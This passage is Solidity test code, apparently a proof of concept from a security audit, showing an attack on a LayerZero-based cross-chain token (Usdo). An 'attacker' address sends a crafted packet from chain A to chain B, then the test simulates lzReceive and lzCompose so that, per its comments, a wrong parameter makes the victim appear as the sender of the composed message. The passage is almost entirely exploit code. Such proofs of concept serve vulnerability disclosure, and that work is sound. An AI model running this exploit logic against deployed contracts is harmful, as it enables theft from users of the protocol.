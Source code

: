 ```solidity
            abi.encode(remoteTransferMsg),
            bytes("") // next message
        );
         
        // INITIAL MESSAGE       A ---> B                      

        // Create `_lzSendParam` parameter for `sendPacket()`
        SendParam memory sendParamAToB = SendParam({
            dstEid: bEid,
            to: OFTMsgCodec.addressToBytes32(makeAddr("attacker")),
            amountLD: 0,
            minAmountLD: 0,
            extraOptions: bytes(""),
            composeMsg: bytes(""),
            oftCmd: bytes("")
        });  
        MessagingFee memory feeAToB = MessagingFee({
            nativeFee: 0,
            lzTokenFee: 0
        });
        
        LZSendParam memory lzSendParamAToB = LZSendParam({
            sendParam: sendParamAToB,
            fee: feeAToB,
            extraOptions: bytes(""),
            refundAddress: makeAddr("attacker")
        });

        vm.startPrank(makeAddr("attacker"));
        aUsdo.sendPacket(lzSendParamAToB, toeComposeMsg);

        // EXECUTE ATTACK

        // Execute first lzReceive() --> receive message in chain B
    
        vm.startPrank(endpoints[bEid]);
        UsdoReceiver(address(bUsdo)).lzReceive(
            Origin({sender: OFTMsgCodec.addressToBytes32(address(aUsdo)), srcEid: aEid, nonce: 0}), 
            OFTMsgCodec.addressToBytes32(address(0)), // guid (not needed for the PoC)
            abi.encodePacked( // same as _buildOFTMsgAndOptions()
                sendParamAToB.to,
                 index,  // amount (use an initialized 0 variable due to Solidity restrictions)
                 OFTMsgCodec.addressToBytes32(makeAddr("attacker")),
                toeComposeMsg
            ), // message
            address(0), // executor (not used)
            bytes("") // extra data (not used)
        );

        // Compose message is sent in `lzReceive()`, we need to trigger `lzCompose()`.
        // This triggers a message back to chain A, in which the srcChainSender will be set as the victim inside the
        // composed message due to the wrong parameter passed
        UsdoReceiver(address(bUsdo)).lzCompose(
            address(bUsdo), 
            OFTMsgCodec.addressToBytes32(address(0)), // guid (not needed for the PoC)
            abi.encodePacked(OFTMsgCodec.addressToBytes32(address(aUsdo)), toeComposeMsg), // message
            address(0), // executor (not used)
            bytes("") // extra data (not used)
        );

```